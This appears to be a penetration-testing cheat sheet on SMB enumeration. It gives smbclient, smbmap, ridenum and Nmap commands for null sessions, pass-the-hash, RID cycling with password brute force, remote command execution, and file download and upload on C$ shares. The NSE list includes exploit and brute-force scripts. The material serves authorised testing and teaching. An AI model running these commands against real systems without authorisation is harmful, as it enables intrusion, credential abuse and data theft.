 # Server Message Block (SMB)

SMB is a protocol which allows for the sharing and discovery of Files, Printers, Serial Ports and Named Pipes accross a network.  A number of techniques can be used to enumerate SMB and have been listed below for reference:

## SMB Null Session
To test for an anonumous user SMB null session the following command can be used:

`smbclient -N -L //192.168.X.X`

The command will use smbclient to test whether the machine accepts SMB null sessions with an anonymous user.  If successful, this will open up an unauthenticated netbios session between two computers.  SMB null sesssions are a common misconfiguration seen when SMBv1 is enabled on operating systems such as Windows 2000, XP and Server 2003.

If an NTLM hash has been obtained during the penetration testing process smbclient can be used to pass-the-hash and obtain access to a resource, such as a file share:

`smbclient -L \\\\192.168.X.X --pw-nt-hash -U username%NTHASH`

Note for the command above `username` will have to be changed to a valid user and `NTHASH` will have to be replaced with a valid NT password hash for that user.

A tool named **smbmap** can also be used to enumerate file shares on a system.  To check for file shares without providing a username and password the following command can be used:

`smbmap -H 192.168.X.X`

### Relative Identifier (RID) Enumeration
Once a null session has been obtained it is possible to enumerate users on a Windows domain using RID cycling.  A tool named **RidEnum** can be used to enumerate valid users on the system.  Note that a RID of `500` would be the default built-in Windows administrator account.  Even if renamed, the account would still retain the same RID.  Newly created user accounts start at a RID of `1000`.  

The following command can be used to enumerate RID's from 500 - 20,000:

`ridenum.py 192.168.X.X 500 20000`

Optionally a password list can be specified, which will attempt to brute force passwords of any valid users found:


`ridenum.py 192.168.X.X 500 20000 /usr/share/wordlists/password.lst`

## Enumerating SMB File Shares

### SMBMap

If a valid username, password and workgroup is known this can be specified as so:

`smbmap -u username -p password1 -d workgroup -H 192.168.X.X`

To use smbmap with a password has that has been obtained, both the LM and NT hashes must be specified.  Modern operating systems no longer use the LM hash, therefore it can be replaced with the 'blank' LM hash `aad3b435b51404eeaad3b435b51404ee`:

`smbmap -u username -p 'aad3b435b51404eeaad3b435b51404ee:NTHASH' -H 192.168.X.X`

The `-x` allows a command to execute on the target host, providing the credentials of a local administrator are known.  The following command will run `ipconfig` on the target:

`smbmap -u local_admin -p password1 -d workgroup -H 192.168.X.X -x 'ipconfig'`

If you want to interact with a particular share the `-r` option can be specified with a share name:

`smbmap -u local_admin -p password1 -d workgroup -H 192.168.X.X -r 'C$'`

To download a file from a share the `--download` option can be used:

`smbmap -u local_admin -p password1 -d workgroup -H 192.168.X.X --download 'C$\filename.txt'`

To upload a file to a file share the `--upload` command can be used.  The first argument is the file to be uploaded and the second argument is the destination on the "victim" machine:

`smbmap -u local_admin -p password1 -d workgroup -H 192.168.X.X --upload '/local/file/path/file_to_upload.txt' 'C$\destination\path\uploaded.txt'`

### Nmap

#### Enumerate Shares

Nmap contains NSE scripts that can be used for enumerating SMB shares:

`nmap -p 445 -sT -vv --script=smb-enum-shares.nse,smb-enum-users.nse 192.168.X.X`

#### NSE SMB Script List

```
smb2-capabilities.nse
smb2-security-mode.nse
smb2-time.nse
smb2-vuln-uptime.nse
smb-brute.nse
smb-double-pulsar-backdoor.nse
smb-enum-domains.nse
smb-enum-groups.nse
smb-enum-processes.nse
smb-enum-services.nse
smb-enum-sessions.nse
smb-enum-shares.nse
smb-enum-users.nse
smb-flood.nse
smb-ls.nse
smb-mbenum.nse
smb-os-discovery.nse
smb-print-text.nse
smb-protocols.nse
smb-psexec.nse
smb-security-mode.nse
smb-server-stats.nse
smb-system-info.nse
smb-vuln-conficker.nse
smb-vuln-cve2009-3103.nse
smb-vuln-cve-2017-7494.nse
smb-vuln-ms06-025.nse
smb-vuln-ms07-029.nse
smb-vuln-ms08-067.nse
smb-vuln-ms10-054.nse
smb-vuln-ms10-061.nse
smb-vuln-ms17-010.nse
smb-vuln-regsvc-dos.nse
smb-vuln-webexec.nse
smb-webexec-exploit.nse

```

## SMB File Retrieval

## SMBGet

Smbget can be used to recursively download files from an SMB file share:

`smbget -R smb://<ip_address>/<sharenamegoeshere>`

